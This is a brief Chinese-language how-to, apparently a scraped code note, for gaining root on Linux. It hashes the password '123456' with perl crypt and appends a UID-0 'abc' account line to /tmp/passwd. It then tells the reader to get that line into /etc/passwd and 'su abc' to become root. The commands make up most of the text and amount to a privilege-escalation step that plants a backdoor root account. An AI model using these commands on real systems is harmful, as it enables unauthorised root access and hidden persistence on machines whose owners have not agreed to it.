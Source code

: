 ## 在linux系统中创造一个用户及其密码

```
perl -le 'print crypt("123456","salt")'　　将123456用盐值加密

加密后得sahL5d5V.UWtI
接着创造一个以123456为密码的用户

echo "abc:sahL5d5V.UWtI:0:0:abc:/root:/bin/bash" >> /tmp/passwd
创造一个abc用户，其密码是123456
```

接着就是想办法将/tmp/passwd的内容写入/etc/passwd中了

写入之后，便su abc, 然后输入123456就可以切换到root了
